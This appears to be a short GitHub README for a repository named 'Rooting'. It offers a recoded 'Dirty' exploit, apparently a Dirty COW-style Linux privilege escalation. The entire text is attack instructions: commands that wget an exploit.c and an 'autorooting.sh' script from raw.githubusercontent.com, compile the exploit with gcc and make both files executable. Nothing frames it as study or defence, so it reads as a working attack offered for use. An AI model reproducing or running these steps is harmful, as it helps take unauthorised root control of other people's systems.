 # Rooting
Rooting

<b>Recoded File.C Dirty</b>

Step  1 : <br>
wget https://raw.githubusercontent.com/mr403forbidden/Rooting/master/exploit.c <br>
<font color="blue">gcc -pthread exploit.c -o exploit -lcrypt </font><br>
<font color="red">chmod +x exploit </font><br>
enter <br>
<br>
Step 2 : <br>
<font color="blue">wget https://raw.githubusercontent.com/mr403forbidden/Rooting/master/autorooting.sh </font><br>
<font color="red">chmod +x autorooting.sh </font><br>
enter <br>

